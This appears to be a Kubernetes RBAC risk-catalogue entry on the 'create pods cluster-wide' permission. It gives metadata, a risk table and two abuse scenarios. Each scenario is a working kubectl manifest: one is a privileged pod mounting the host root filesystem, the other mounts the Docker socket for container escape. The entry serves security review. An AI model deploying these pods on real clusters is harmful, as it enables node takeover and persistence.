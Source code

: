 ```yaml
---
id: 1006
title: "Create pods cluster-wide"
description: "Allows creating new pods in any namespace across the cluster. This is highly critical as it can be used to deploy pods with elevated privileges (e.g., hostPath mounts, privileged security context), leading to node compromise, cluster-wide code execution, and establishing persistence."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                     |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1006                                                                                                                      |
| Name                    | Create pods cluster-wide                                                                                                  |
| Risk Category           | Elevation of Privilege                                                                                                    |
| Risk Level              | {{< risk Critical >}}                                                                                                     |
| Role Type               | ClusterRole                                                                                                               |
| API Groups              | core                                                                                                                      |
| Resources               | pods                                                                                                                      |
| Risky Verb Combinations | [create]                                                                                                                  |
| Tags                    | {{< tag "LateralMovement" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "WorkloadExecution" >}} |

## Description

Allows creating new pods in any namespace across the cluster. This is highly critical as it can be used to deploy pods with elevated privileges (e.g., hostPath mounts, privileged security context), leading to node compromise, cluster-wide code execution, and establishing persistence.

## Abuse Scenarios

1. Create a privileged pod with hostPath access to the node's root filesystem.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: privileged-attacker-pod
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: attacker
    image: busybox
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: host-root
  volumes:
  - name: host-root
    hostPath:
      path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Create a pod that mounts the host's Docker socket for container escape.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: docker-socket-pod
spec:
  containers:
  - name: docker-client
    image: docker
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
    - mountPath: /var/run/docker.sock
      name: docker-socket
  volumes:
  - name: docker-socket
    hostPath:
      path: /var/run/docker.sock
EOF

```
